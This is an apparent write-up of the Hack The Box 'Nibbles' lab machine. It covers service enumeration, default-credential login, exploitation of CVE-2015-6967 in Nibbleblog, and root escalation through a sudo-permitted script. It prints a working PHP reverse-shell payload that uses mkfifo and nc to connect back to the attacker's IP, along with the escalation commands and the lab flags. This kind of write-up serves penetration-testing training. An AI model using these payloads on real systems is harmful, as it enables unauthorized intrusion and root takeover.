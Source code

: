 # HTB: Nibbles

## Engagement Overview

**Target:** Nibbles   
**Box IP:** 10.10.10.75   
**Local IP:** 10.10.14.7  
**Date:** 07-20-2025  

---

### Objectives

- Enumerate services to discover web applications and credentials.
- Exploit an arbitrary file upload vulnerability in Nibbleblog.
- Escalate privileges via misconfigured sudo permissions to obtain root access.

---

## Service Enumeration

### Nmap Results

```
nmap -sV -sC -A 10.10.10.75
```
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

- Web server on port 80 hosted a Nibbleblog CMS.
- Detected Nibbleblog version: **v4.0.3 Codename: Coffee** (2014-04-01)

### Gobuster Results

```
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 20
```
Key findings:
- `/admin.php` – Admin login page
- `/content/`, `/plugins/`, `/themes/`, `/languages/` – Exposed directories
- `/README`, `/LICENSE.txt`, `/COPYRIGHT.txt` – Info disclosure
- `/install.php`, `/update.php` – Should have been removed after setup

---

## Methodologies

### Initial Access – Arbitrary File Upload

**Vulnerability:**  
- CVE-2015-6967 – Authenticated file upload vulnerability in Nibbleblog 4.0.3  
  [https://www.cve.org/CVERecord?id=CVE-2015-6967](https://www.cve.org/CVERecord?id=CVE-2015-6967)

**Credentials:**
```
Username: admin
Password: nibbles
```

**Payload:**
```php
<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.7 5454 > /tmp/f"); ?>
```

**Exploit:**
```bash
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
```

**Result:**
- Reverse shell obtained on port 5454 as web user.

---

## Privilege Escalation

```bash
sudo -l
```

Output:
```
User nibbler may run the following command without password:
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Initial attempt to inject reverse shell into `monitor.sh` failed due to syntax issues.

**Working escalation method:**
```bash
echo "bash -i" > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

**Result:**
- Root shell obtained.
- Accessed `/root/root.txt`.

---

## House Cleaning

- No cleanup required; no persistence or destructive changes made.

---

## Post-Exploitation

### Credentials & Flags
- `user.txt`: `caafc6db3f2edcfadb67939c0bfc8be7`  
- `root.txt`: `3326a0f327a5b3466a5ca7016471485e`

---

## Tools Utilized

* `nmap`, `gobuster`, `netcat`
* `exploit.py`, `shell.php` (reverse shell payload)
* Python3, Bash

---

## Key Takeaways

* Old CMS versions often contain known exploits like CVE-2015-6967.
* Default credentials (`admin:nibbles`) still work — always try basic credential stuffing.
* Misconfigured `sudo` scripts can offer root access — even a writable `.sh` file is a goldmine.
* If a reverse shell payload fails, test simpler command injection like `bash -i` to reduce syntax errors.
